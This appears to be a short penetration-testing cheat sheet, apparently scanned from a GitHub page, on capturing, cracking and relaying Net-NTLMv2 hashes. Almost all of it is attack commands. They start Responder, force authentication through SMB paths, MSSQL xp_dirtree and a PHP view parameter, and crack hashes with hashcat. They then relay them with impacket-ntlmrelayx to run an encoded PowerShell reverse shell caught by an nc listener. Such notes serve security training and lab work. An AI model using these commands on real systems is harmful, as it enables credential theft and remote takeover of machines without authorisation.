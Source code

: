 ### Cracking Net-NTLMv2

```bash
sudo responder -I tun0
```

On the victim machine:

```bash
dir \\$IP_MIO\\\test

# msql
xp_dirtree \\$IP_MIO\\\test
EXEC xp_dirtree \\$IP_MIO\\\test

# php request
http://sito.com/index.php?view=\\10.10.14.2\test
http://sito.com/index.php?view=//10.10.14.2/test
```

```bash
hashcat --help | grep -i "ntlm"

hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force
```

### Relaying Net-NTLMv2

When you fail to crack the password obtained via responder, you may consider using the hash to access another machine via _relay attack_.

First, let's generate a powershell code to get a reverse-shell:
- https://www.revshells.com/

We then use _impacket-ntlmrelayx_ to perform the attack:

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $IP_VITTIMA\TEST -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

Starting a listener to get the reverse-shell:

```bash
nc -nvlp 6666
```

On the victim machine:

```bash
dir \\$IP_MIO\test
```